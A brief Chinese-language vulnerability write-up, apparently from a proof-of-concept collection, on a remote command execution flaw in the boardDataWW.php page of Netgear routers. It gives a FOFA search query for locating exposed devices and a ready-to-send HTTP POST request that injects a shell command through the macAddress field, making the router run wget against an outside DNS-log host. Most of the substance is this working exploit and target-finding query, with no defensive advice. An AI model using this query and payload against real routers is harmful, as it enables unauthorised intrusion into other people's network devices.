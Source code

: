 ## Netgear路由器boardDataWW.php存在RCE漏洞

NetGear是一家知名的网络设备制造商，其路由器产品线多样化，性能稳定，易用性强，安全性高，并提供良好的技术支持和售后服务。适合家庭和企业用户使用，是可靠的网络设备品牌选择。
该产品boardDataWW.php处存在RCE漏洞，恶意攻击者可能会利用此漏洞执行恶意命令，最终导致服务器失陷。

## fofa
```
title=="Netgear"
```


## poc
```
POST /boardDataWW.php HTTP/1.1
Host: 
Accept: */*
Content-Type: application/x-www-form-urlencoded

macAddress=112233445566%3Bwget+http%3A%2F%2Fnstucl.dnslog.cn%23&reginfo=0&writeData=Submit
```
